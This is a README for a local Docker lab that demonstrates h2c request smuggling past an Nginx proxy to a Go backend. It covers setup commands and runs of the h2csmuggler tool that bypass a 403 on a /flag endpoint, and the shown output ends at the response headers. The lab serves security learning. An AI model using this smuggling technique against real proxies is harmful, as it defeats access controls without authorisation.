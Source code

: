 ### LAB
Since the Lab enviroment to test the tool is quite older and I had some problem to run the Docker container for the backend server, I decided to create my own Lab here. I did not forked the original repo since it seems to not been mantained anymore (pull requests hanging), plus, to keep the things simple, I decided to use only Ngnix as proxy. The backend server is exactly the same (GO app), I only added some more console log.
#### Requirements
- Docker
- Docker compose
- Python3 with h2c support
My enviroments
- OS Kali 2024.2
- Server: Docker Engine - Community, Version: 26.1.4
- Docker Compose version v2.27.1
- Python 3.11.9 with h2 (4.1.0)

#### LAB setup

    pip3 install h2
    git clone https://github.com/zinzloun/lost-in-smuggling.git
    cd lost-in-smuggling/h2c 
    chmod u+x configs/generate-certificates.sh && ./configs/generate-certificates.sh
check certificates has been generated
    
    ls configs                      
        cert.pem ...  key.pem  ...
Run the containers (proxy and backend)

    sudo docker compose up
Grab a beer... :)

#### Working in the lab
Once the containers are started we should have the following:
- Ngnix (proxy) on https://localhost:8443
- Backend GO server on http://localhost:8080
For the sake of learninf, of course, you should interact with the backend only through the proxy. If you try to access the flag through the proxy:

      https://localhost:8443/flag

You will recive:

        403 Forbidden
        nginx/1.27.0

First we can test if the proxy can be used as HTTP tunnell:

    python h2csmuggler.py -x https://localhost:8443 --test                    
        [INFO] h2c stream established successfully.
        [INFO] Success! https://localhost:8443 can be used for tunneling
Then we can proceed to try to get the flag:

    python h2csmuggler.py -x https://localhost:8443 http://backend/flag
    [INFO] h2c stream established successfully.
    :status: 200
    content-type: text/plain; charset=utf-8
    content-length: 70
    date: Sat, 08 Jun 2024 12:32:46 GMT
    